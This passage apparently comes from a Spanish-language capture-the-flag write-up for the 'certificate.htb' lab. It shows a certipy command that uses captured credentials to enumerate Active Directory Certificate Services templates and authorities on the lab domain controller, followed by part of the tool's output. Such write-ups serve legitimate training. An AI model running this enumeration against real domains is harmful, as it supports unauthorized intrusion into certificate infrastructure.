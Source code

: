 ![image-center](/assets/images/posts/certificate-bloodhound.png)
{: .align-center}

Con la herramienta `certipy`, buscaremos plantillas vulnerables que podamos utilizar par explotar el servicio AD CS

~~~ bash
certipy find -u 'lion.sk' -p '!QAZ2wsx' -dc-ip 10.10.11.71 -stdout

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
    Certificate Validity Start          : 2024-11-03 22:55:09+00:00
    Certificate Validity End            : 2034-11-03 23:05:09+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
~~~